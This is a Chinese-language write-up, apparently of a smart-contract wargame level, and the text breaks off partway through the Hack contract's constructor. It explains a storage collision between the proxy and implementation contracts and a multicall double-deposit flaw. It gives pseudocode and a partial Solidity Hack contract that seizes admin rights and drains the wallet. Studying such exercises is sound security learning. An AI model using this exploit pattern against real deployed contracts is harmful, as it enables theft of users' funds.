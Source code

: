 # 攻击思路

有点麻烦但是非常直白

- Proxy合约与Implementation合约使用的storage变量不同，
- 利用这个漏洞，我们可以改写owner以及admin
- 设置admin需要成为implementation的owner
- 设置admin还需要让合约的ether归零
    - `multiCall`代码漏洞
        - 先call `deposit`
        - 在call `multiCall`，`multiCall`再call deposit
            - `depositCalled`是`multiCall`里面的一个变量，不是global，每次call都更新
    - 实现了call一次`multiCall`函数，`deposit`两次（甚至可以多次）

## 具体一点的伪代码

```solidity
// 1. 调用 proposeNewAdmin 将自己设为 pendingAdmin
puzzleProxy.proposeNewAdmin(attackerAddress);

// 2. 调用 addToWhitelist 将自己添加到白名单
puzzleWallet.addToWhitelist(attackerAddress);

// 3. 使用 multicall 和 setMaxBalance 覆盖 admin
puzzleWallet.multicall([
    abi.encodeWithSelector(puzzleWallet.setMaxBalance.selector, uint256(attackerAddress))
]);

// 4. 调用 approveNewAdmin 使自己成为 admin
puzzleProxy.approveNewAdmin(attackerAddress);
```

# 攻击方式

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IWallet {
    function admin() external view returns (address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Hack {
    constructor(IWallet wallet) payable {
        // overwrite wallet owner
        wallet.proposeNewAdmin(address(this));
        wallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        // deposit
        data[0] = deposit_data[0];
        // multicall -> deposit
        data[1] = abi.encodeWithSelector(wallet.multicall.selector, deposit_data);
        wallet.multicall{value: 0.001 ether}(data);
```